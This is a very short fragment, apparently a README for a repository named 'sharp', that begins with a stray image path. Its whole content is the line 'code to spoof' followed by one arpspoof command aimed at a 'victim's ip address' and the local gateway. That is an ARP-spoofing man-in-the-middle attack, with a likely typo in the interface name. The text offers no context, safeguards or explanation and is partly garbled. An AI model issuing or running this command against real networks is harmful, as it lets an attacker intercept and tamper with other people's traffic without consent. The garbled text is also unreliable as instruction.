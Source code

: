 # sharp

code to spoof 


arpspoof -i wlol -t victim's ip address -r default gateway of your system

